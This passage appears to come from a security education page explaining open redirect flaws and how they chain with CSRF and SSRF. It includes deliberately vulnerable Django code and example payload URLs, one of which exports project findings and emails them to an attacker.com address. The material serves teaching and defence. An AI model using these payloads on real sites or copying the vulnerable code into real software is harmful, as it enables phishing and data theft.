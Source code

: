 If the program redirects to whatever appears in `redirect_url`, an attacker can replace it with a malicious destination:

```
https://semgrep.dev/login?redirect_url=https://attacker.com/my-semgrep-dashboard
```

The user sees the trusted domain `semgrep.dev` in their browser before the redirect happens. By the time they land on the attacker’s page, it may look like a legitimate login or checkout page designed to steal credentials.

## Common Open Redirect Attacks

To an attacker, an open redirect is often considered low-hanging fruit. However, with the increased complexity of modern applications, it’s often become possible to escalate these to higher-severity security issues. That’s why open redirects shouldn’t be dismissed as harmless. In practice, they’re often used as building blocks in larger attacks such as phishing, session fixation, Cross-Site Scripting (XSS), [Server-Side Request Forgery (SSRF)](/docs/learn/vulnerabilities/server-side-request-forgery), or Cross-Site Request Forgery (CSRF). Here’s a few examples.

### Chaining with CSRF

This Python example with Django demonstrates combining an open redirect with a cross-site request forgery:

```python
from django.http import HttpResponseRedirect, JsonResponse

def redirect_view(request):
    url = request.GET.get("url")
    return HttpResponseRedirect(url)

def export_semgrep_findings(request):
    if request.method == "GET":
        project_id = request.GET.get("id")
        email = request.GET.get("email")
        export_and_send_semgrep_findings(project_id, email)
        return JsonResponse({"success": True, "message": "Findings sent"})
```

In this fictional example, we notice an open redirect in the `redirect_view` . Additionally, if CSRF protection is not enabled globally, the `export_semgrep_findings` function is vulnerable to a CSRF attack. The following malicious link would allow an attacker to trick a logged-in user into triggering a request that exports sensitive Semgrep findings from their project and emails them straight to the attacker.

```python
/redirect?url=/api/project/export?id=1234&email=pieter@attacker.com
```

### Chaining with SSRF

Even if an application tries to restrict which hosts it can fetch from, an open redirect can bypass those defenses. Suppose `semgrep.dev` has an image loader that only allows fetching from `*.semgrep.dev` , the implementation might look something like the Python code snippet below.
